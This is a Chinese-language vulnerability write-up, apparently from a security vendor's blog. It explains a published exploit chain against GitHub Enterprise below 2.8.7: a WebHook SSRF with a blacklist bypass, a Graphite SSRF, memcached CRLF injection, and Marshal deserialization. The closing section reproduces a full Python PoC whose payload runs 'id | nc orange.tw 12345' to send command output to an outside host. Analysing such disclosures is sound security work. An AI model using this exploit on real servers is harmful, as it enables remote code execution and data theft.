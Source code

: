 ```yaml
---
title: GitHub Enterprise远程代码执行解读
date: 2017-08-16 15:29:05
tags: web漏洞分析
categories: 技术
---
```


![](http://blog.nsfocus.net/wp-content/uploads/2017/08/GitHub-Enterprise-250x229.png)

GitHub Enterprise和GitHub的服务类似，不过它为大型企业的开发团队量身定制。

根据Github官方博客：GitHub Enterprise包括了Github之前的所有主要功能，包括提交历史、代码浏览、比较视图、推送请求、问题追踪、Wiki、Gist共享代码段、团队管理等，此外，还提供了更强大的API以及一个更漂亮的Web界面。

在GitHub Enterprise上，你可以在自己的服务器本地运行这些功能。

<!--more-->

## 漏洞解读

在GitHub Enterprise中，有一个名为WebHook的功能。关于WebHook，我在下面简单的介绍下：

Webhook是什么？

Webhook，也就是人们常说的钩子，是一个很有用的工具。可以通过定制 Webhook 来监测用户在 Github.com 上的各种事件，最常见的莫过于 push 事件。如果用户设置了一个监测 push 事件的 Webhook，那么每当用户的这个项目有了任何提交，这个 Webhook 都会被触发，这时 Github 就会发送一个 HTTP POST 请求到用户配置好的地址。

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/1-4.png) ![](http://blog.nsfocus.net/wp-content/uploads/2017/08/5-3.png)

GitHub Enterprise中的WebHook功能，在Hooks&amp;services配置选项下。它能在执行选定git操作时执行时自定义HTTP回调。

GitHub Enterprise通过Gem的faraday-restrict-ip-addresses功能来防止用户请求内部服务。下面看下faraday-restrict-ip-addresses功能是如何防止ssrf的：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/2-5.png)

这里可以看出，它是通过限定了一个黑名单的方式，来避免用户在WebHook中添加内网地址。

漏洞发现者提供了一个方法来绕过这层防护，他提出可以通过RFC 3986定义的稀有IP地址格式（Rare IP Address Formats）来绕过它：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/3-4.png)

这个地址在Linux系统中，0代表的是localhost，在绕过faraday-restrict-ip-addresses中的黑名单同时，可以访问服务器内网资源。

现在我们可以访问内网资源了，应该想到的的是利用缓存数据进行反序列化来利用，以redis为例，我们要想在redis中写入反序列化数据，就想到要用Python的urllib库曾出过一个头注入的漏洞（CVE-2016-5699）来构造http头向redis写入数据。

再来看看我们现在控制的这处ssrf，它有一个问题，它是基于通过ruby-Gem的faraday来解析数据的，faraday中不存在CR-LF命令注入，所以没办法通过这个ssrf构造http头向缓存中写东西的。

下面的思路就是，我们要找到一个内网服务，它需要是python写的（存在头注入的漏洞），并且它也得存在一个ssrf，用来访问本地的缓存服务并向其中写入数据。

漏洞发现者找到了GitHub Enterprise中的一个这样的服务：**Graphite****服务，**Graphite中有一个ssrf漏洞，位于

webapps/graphite/composer/views.py

**![](http://blog.nsfocus.net/wp-content/uploads/2017/08/4-4.png)**

可以看出Graphite服务可以接收url地址并进行利用，如果后台采用redis进行缓存，漏洞发现者给出下面的利用构造：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/5-3.png)

（注：Graphite服务启用在本地8000端口）

但是漏洞发现者发现“GitHub Enterprise使用Ruby Gem的Memcached方式来处理缓存，而其通过Marshal模块进行封装” 。并且他提到“GitHub Enterprise Rails控制端中存在反序列化漏洞的Marshal” Marshal模块的反序列化漏洞这里就不介绍了，可以自己分析一下。

## 漏洞利用

因此最后构造的poc如下：

#!/usr/bin/python

from urllib import quote

''' set up the marshal payload from IRB

code = "`id | nc orange.tw 12345`"

p "\x04\x08" + "o"+":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"\x07" + ":\x0E@instance" + "o"+":\x08ERB"+"\x07" + ":\x09@src" + Marshal.dump(code)[2..-1] + ":\x0c@lineno"+ "i\x00" + ":\x0C@method"+":\x0Bresult"

'''

marshal_code = '\x04\x08o:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\x07:\x0e@instanceo:\x08ERB\x07:\t@srcI"\x1e`id | nc orange.tw 12345`\x06:\x06ET:\x0c@linenoi\x00:\x0c@method:\x0bresult'

payload = [

'',

'set githubproductionsearch/queries/code_query:857be82362ba02525cef496458ffb09cf30f6256:v3:count 0 60 %d' % len(marshal_code),

marshal_code,

'',

''

]

payload = map(quote, payload)

url = 'http://0:8000/composer/send_email?to=orange@chroot.org&amp;url=http://127.0.0.1:11211/'

print "\nGitHub Enterprise &lt; 2.8.7 Remote Code Execution by orange@chroot.org"

print '-'*10 + '\n'

print url + '%0D%0A'.join(payload)

print '''

Inserting WebHooks from:

https://ghe-server/:user/:repo/settings/hooks

Triggering RCE from:

https://ghe-server/search?q=ggggg&amp;type=Repositories

'''

&nbsp;

参考链接

http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html